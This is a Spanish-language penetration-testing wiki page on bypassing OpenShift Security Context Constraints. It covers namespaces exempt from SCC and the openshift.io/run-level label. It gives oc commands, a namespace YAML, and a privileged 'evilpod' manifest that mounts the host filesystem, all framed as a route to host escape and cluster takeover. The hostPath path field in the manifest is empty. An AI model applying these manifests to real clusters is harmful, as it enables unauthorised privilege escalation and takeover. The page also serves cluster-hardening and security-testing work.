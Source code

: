 # Openshift - Bypass de SCC

**El autor original de esta página es** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Espacios de nombres privilegiados

Por defecto, SCC no se aplica en los siguientes proyectos:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Si despliegas pods dentro de uno de esos espacios de nombres, no se aplicará ninguna SCC, lo que permite el despliegue de pods privilegiados o el montaje del sistema de archivos del host.

## Etiqueta de Espacio de nombres

Hay una forma de deshabilitar la aplicación de SCC en tu pod según la documentación de RedHat. Necesitarás tener al menos uno de los siguientes permisos:

* Crear un Espacio de nombres y crear un Pod en este Espacio de nombres
* Editar un Espacio de nombres y crear un Pod en este Espacio de nombres
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
El etiqueta específica `openshift.io/run-level` permite a los usuarios evitar los SCCs para las aplicaciones. Según la documentación de RedHat, cuando se utiliza esta etiqueta, no se aplican SCCs en todas las vainas dentro de ese espacio de nombres, eliminando efectivamente cualquier restricción.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Agregar Etiqueta

Para agregar la etiqueta en tu espacio de nombres:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para crear un espacio de nombres con la etiqueta a través de un archivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ahora, todos los nuevos pods creados en el espacio de nombres no deben tener ningún SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En ausencia de SCC, no hay restricciones en la definición de tu pod. Esto significa que un pod malicioso puede ser creado fácilmente para escapar al sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ahora, se ha vuelto más fácil escalar privilegios para acceder al sistema host y posteriormente tomar el control de todo el clúster, obteniendo privilegios de 'cluster-admin'. Busca la parte de **Post Explotación de Nodos** en la siguiente página:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Etiquetas personalizadas

Además, según la configuración del objetivo, algunas etiquetas / anotaciones personalizadas pueden ser utilizadas de la misma manera que en el escenario de ataque anterior. Incluso si no se crearon para ello, las etiquetas podrían ser utilizadas para otorgar permisos, restringir o no un recurso específico.

Intenta buscar etiquetas personalizadas si puedes leer algunos recursos. Aquí tienes una lista de recursos interesantes:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Enumerar todos los espacios de nombres privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avanzado

En OpenShift, como se demostró anteriormente, tener permiso para implementar un pod en un espacio de nombres con la etiqueta `openshift.io/run-level` puede llevar a una toma de control directa del clúster. Desde la perspectiva de la configuración del clúster, esta funcionalidad **no se puede deshabilitar**, ya que es inherente al diseño de OpenShift.

Sin embargo, medidas de mitigación como **Open Policy Agent GateKeeper** pueden evitar que los usuarios establezcan esta etiqueta.

Para evadir las reglas de GateKeeper y establecer esta etiqueta para ejecutar una toma de control del clúster, **los atacantes necesitarían identificar métodos alternativos.**

## Referencias

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
